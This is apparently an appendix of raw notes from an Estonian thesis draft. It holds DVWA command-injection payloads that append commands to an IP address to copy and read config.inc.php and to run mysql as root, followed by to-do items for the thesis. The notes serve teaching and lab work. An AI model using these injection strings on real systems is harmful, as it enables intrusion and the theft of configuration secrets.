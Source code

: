 \appendix













\section{Toormaterjal}
Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig

Iga peatüki juurde panna kirja, mitu lehekülge on vaja.
E-kiri tsitaatidena - ainult vajalikud osad.
ainekava ei tõlgi - Jääb lisasse eesti keelsena
neljapäeva hommikul 16. saadan töö. - tühja kohta ei ole - todo on tehtud ja jääb keelekorrektuur.
neljapäevaks kaitsmisproov.

%